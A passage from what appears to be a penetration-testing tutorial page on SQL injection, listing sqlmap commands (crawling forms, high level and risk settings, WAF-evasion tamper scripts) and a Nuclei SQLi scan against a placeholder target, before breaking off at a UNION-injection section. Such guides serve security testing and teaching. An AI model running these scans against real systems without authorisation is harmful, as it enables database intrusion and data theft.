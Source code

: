 ### Scanning with SQLMap

To learn how to use SQLMap in detail, you can go to our related tactic page by [click here](https://hackviser.com/tactics/tools/sqlmap).

#### SQLMap basic scan

```bash
sqlmap -u "http://target.com" 
```

#### SQLMap basic scan with crawling

```bash
sqlmap -u "http://target.com" --crawl=3 --batch --forms
# --crawl=3: Crawls the website up to 3 levels deep
# --batch: Never asks for user input, uses default responses
# --forms: Automatically tests all forms found
```

#### SQLMap scan with request file

```bash
sqlmap -r login-request.txt --level=5 --risk=3 --batch
# --level=5: Most through testing level (default is 1)
# --risk=3: Includes risky tests that could potentially cause problems (default is 1)
```

#### SQLMap advanced options for specific scenarios

```bash
sqlmap -u "http://target.com/api/endpoint" \
  --headers="Authorization: Bearer xxx" \  # Custom HTTP headers for API testing
  --technique=BEUSTQ \  # Use all techniques: Boolean, Error, Union, Stacked, Time, Query
  --dbms=mysql \        # Specify database type for more efficient testing
  --threads=10 \        # Parallel threads for faster scanning
  --tamper=space2comment,between  # Evade WAF by using comment instead of spaces and BETWEEN operator
```

### Scanning with Nuclei

```bash
nuclei -u "http://target.com" -t sqli/ -severity critical
# Scans target using Nuclei's SQL injection templates
# -severity critical: Only runs critical severity checks
```

## Attack Vectors

### UNION Based Injection

UNION-based attacks allow combining the results of two queries. First step is finding the correct number of columns:
